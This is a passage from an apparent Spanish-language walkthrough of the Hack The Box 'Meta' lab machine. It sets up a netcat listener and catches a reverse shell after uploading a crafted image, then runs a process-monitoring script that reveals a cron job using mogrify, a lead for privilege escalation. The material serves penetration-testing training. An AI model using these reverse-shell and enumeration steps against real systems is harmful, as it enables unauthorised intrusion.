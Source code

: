 ¡Muy bien! Precedemos a subir la imagen `runme.jpg` a la página víctima, sin embargo, antes de darle clic al botón para finalizar el proceso, debemos hacer un último paso, es necesario ponernos en escucha con la utilidad `nc` con el puerto que se indica al momento de realizar la reverse shell.

```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
```

Ahora sí, es momento de subir la imagen y dar clic en el botón para terminar el proceso en la página web y cómo podemos ver, ¡acto seguido obtenemos una shell de la maquina victima!


```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.11.140] 56278
bash: cannot set terminal process group (639): Inappropriate ioctl for device
bash: no job control in this shell
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ whoami
whoami
www-data
```

## PROCMON.SH

Excelente! Sin embargo, por el momento solo somos el usuario www-data, así que luego de realizar diversos intentos de enumeraciones para escalar privilegios fallidas, ejecutamos un script denominado `procmon.sh` el cual nos va a permitir monitorear los comandos se están ejecutando en tiempo real en la máquina.

Vamos a ir a la carpeta `/tmp` y con la utilidad `nano` creamos el archivo.

```bash
cd /tmp

nano procmon.sh

#!/bin/bash

old_process=$(ps -eo command)

while true; do
        new_process=$(ps -eo command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon | command | kworker"
        old_process=$new_process
done
```

Una vez es ejecutado el archivo anterior, encontramos los siguientes comandos que han sido ejecutados, entre ellos se menciona el fichero convert_images.sh

```bash
www-data@meta:/tmp$ ./procmon.sh
> /usr/sbin/CRON -f
> /bin/sh -c /usr/local/bin/convert_images.sh
> /bin/bash /usr/local/bin/convert_images.sh
> /usr/local/bin/mogrify -format png *.*
< /usr/sbin/CRON -f
< /bin/sh -c /usr/local/bin/convert_images.sh
< /bin/bash /usr/local/bin/convert_images.sh
< /usr/local/bin/mogrify -format png *.*
```

